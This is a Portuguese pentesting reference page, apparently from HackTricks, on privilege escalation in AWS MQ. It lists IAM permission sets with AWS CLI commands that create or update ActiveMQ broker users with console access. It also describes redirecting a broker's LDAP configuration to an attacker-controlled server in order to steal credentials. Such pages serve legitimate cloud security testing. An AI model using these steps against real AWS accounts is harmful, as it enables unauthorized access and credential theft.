 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

Para mais informações sobre MQ, consulte:

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Com essas permissões você pode **criar um novo usuário em um broker ActimeMQ** (isso não funciona no RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impacto potencial:** Acessar informações sensíveis navegando pelo ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Com essas permissões você pode **criar um novo usuário em um broker ActimeMQ** (isso não funciona no RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impacto Potencial:** Acessar informações sensíveis ao navegar pelo ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Se um broker estiver usando **LDAP** para autorização com **ActiveMQ**, é possível **alterar** a **configuração** do servidor LDAP usado para **um controlado pelo atacante**. Dessa forma o atacante poderá **roubar todas as credenciais enviadas via LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Se você, de alguma forma, conseguir encontrar as credenciais originais usadas pelo ActiveMQ, poderá realizar um MitM, roubar as creds, usá-las no servidor original e enviar a resposta (talvez apenas reutilizando as credenciais roubadas você consiga fazer isso).

**Impacto potencial:** Roubar credenciais do ActiveMQ

{{#include ../../../../banners/hacktricks-training.md}}
